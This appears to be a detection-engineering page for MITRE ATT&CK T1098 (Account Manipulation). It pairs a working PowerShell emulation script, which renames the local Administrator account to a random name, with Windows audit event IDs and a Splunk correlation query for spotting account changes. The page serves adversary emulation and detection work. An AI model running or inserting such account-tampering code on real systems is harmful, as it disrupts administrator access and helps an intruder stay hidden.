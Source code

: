 # T1098 - Account Manipulation
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1098)
<blockquote>Account manipulation may aid adversaries in maintaining access to credentials and certain permission levels within an environment. Manipulation could consist of modifying permissions, modifying credentials, adding or changing permission groups, modifying account settings, or modifying how authentication is performed. These actions could also include account activity designed to subvert security policies, such as performing iterative password updates to subvert password duration policies and preserve the life of compromised credentials. In order to create or manipulate accounts, the adversary must already have sufficient permissions on systems or the domain.
</blockquote>

## Assumptions
Attacker has a command line access or priviledge access that can be used for account manipulation

## Execution:
[Test using Atomic Red Team](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1098/T1098.md)


* Run it with `powershell`!
```
$x = Get-Random -Minimum 2 -Maximum 9999
$y = Get-Random -Minimum 2 -Maximum 9999
$z = Get-Random -Minimum 2 -Maximum 9999
$w = Get-Random -Minimum 2 -Maximum 9999
Write-Host HaHaHa_$x$y$z$w

$hostname = (Get-CIMInstance CIM_ComputerSystem).Name

$fmm = Get-CimInstance -ClassName win32_group -Filter "name = 'Administrators'" | Get-CimAssociatedInstance -Association win32_groupuser | Select Name

foreach($member in $fmm) {
    if($member -like "*Administrator*") {
        Rename-LocalUser -Name $member.Name -NewName "HaHaHa_$x$y$z$w"
        Write-Host "Successfully Renamed Administrator Account on" $hostname
        }
    }
```


* Manualy make changes to use account ( account creation, disabling , deleting, etc)

## Detection:
* Monitor changes to account objects
* Enable Windows Audit Policy
* Event ID 4720    A user account was created
* Event ID 4722    A user account was enabled
* Event ID 4725    A user account was disabled
* Event ID 4726    A user account was deleted
* Event ID 4738    A user account was changed
* Event ID 4740    A user account was locked out
* Event ID 4741    A computer account was created
* Event ID 4742    A computer account was changed
* Event ID 4743    A computer account was deleted
* Event ID 4767    A user account was unlocked
* Event ID 4797    An attempt was made to query the existence of a blank password for an account
* Search for "Net user" which can be used for account manipulation
* [Read Mitre ATT&CK for more Detection info](https://attack.mitre.org/wiki/Technique/T1098)

### Visibility
* Windows log event
* Enable Windows event log , Audit
![Splunk Detection](https://github.com/avaplex/dpi911/blob/master/images/T1098-1.JPG)
* Account manipulation with relation to other events
* Changes to account objects
* Use of "net user"

### Filter / Correlation in Splunk

```
"eventcode=4720" OR "eventcode=4722" OR "eventcode=4725" OR "eventcode=4726" OR "eventcode=4738" OR "eventcode=4740" OR "eventcode=4741" OR "eventcode=4742" OR "eventcode=4743" OR "eventcode=4767" OR "eventcode=4797" OR "net*user"
```

![Splunk Detection](https://github.com/avaplex/dpi911/blob/master/images/T1098.JPG)

